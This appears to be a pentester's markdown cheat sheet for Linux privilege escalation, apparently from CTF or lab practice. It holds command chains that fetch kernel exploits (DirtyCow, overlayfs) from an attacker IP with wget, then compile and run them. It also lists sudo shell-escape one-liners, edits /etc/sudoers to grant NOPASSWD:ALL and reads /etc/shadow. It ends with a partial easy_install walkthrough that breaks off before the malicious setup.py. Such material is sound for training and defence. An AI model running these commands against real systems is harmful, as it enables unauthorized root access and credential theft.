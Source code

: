 > The first thing you should do is run one or more of these, save the output they give you and just read them. Try to find any obvious things sticking out and don't rush to try kernel exploits even if you see them suggested here. Kernel exploits, while effective, will frequently crash the system if they fail. 

- [LinEnum.sh](https://github.com/rebootuser/LinEnum)

- [unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)

- [Linux Exploit Suggestor](https://github.com/The-Z-Labs/linux-exploit-suggester)

more - https://book.hacktricks.xyz/linux-hardening/privilege-escalation#linux-unix-privesc-tools

###### Kernel Exploits

- Linux Exploit Suggestor
    - `/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh`
        - suggested dirtycow exploit, downloaded and used
    - `mv 40839.c dirtcowexploit.c` >`python -m http.server 80` > `wget http://10.17.107.227/dirtcowexploit.c -P /tmp/` > `cd /tmp` > `gcc dirtcowexploit.c -pthread -o dirty -lcrypt` > `./dirty` > `su firefart`

- Linux Kernel 3.13.0 < 3.19 - 'overlayfs' Local Privilege Escalation 
    - `mv 37292.c exploit.c` > `python -m http.server 80`  > `wget http://10.17.107.227/exploit.c -P /tmp/` > `cd tmp` > `gcc exploit.c -o exploit` > `./exploit`

- Exploit DB
    - `mv 37292.c exploit.c` > `python -m http.server 80`  > `wget http://10.17.107.227/exploit.c -P /tmp/` > `cd tmp` > `gcc exploit.c -o exploit` > `./exploit`

###### SUDO Misconfigured Permissions

- Privilege Escalation by SUDO (Shell Escaping)
    - `sudo man ls` > `!/bin/bash`
    - `sudo nano /etc/sudoers` > `karen ALL=NOPASSWD:ALL` > `sudo su`
    - `sudo nano` > `Ctrl+R then Ctrl+X,` > `sh 1>&0 2>&0`
    - `sudo find . -exec /bin/sh \; -quit`
    - `sudo awk 'BEGIN {system("/bin/sh")}'`
    - `sudo vim -c '!sh'`
    - `echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse`
    - `sudo apache2 -f /etc/shadow`
    - `sudo systemctl xyz` > `!sh`


EAMPLE for easy_install
```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install

# easy_install is a now deprecated way to install packages in Python. At it’s heart, it’s running a setup.py script which promises to take certain actions to install the package.

developer@updown:~$ sudo easy_install
error: No urls, filenames, or requirements specified (see --help)

# It can take a URL (so I could host something malicious on my machine and fetch it), but it can also just take a directory. I’ll create a directory:

developer@updown:~$ mkdir /tmp/0xdf
developer@updown:~$ cd /tmp/0xdf
developer@updown:/tmp/0xdf$

# put malicious script into setup.py:

```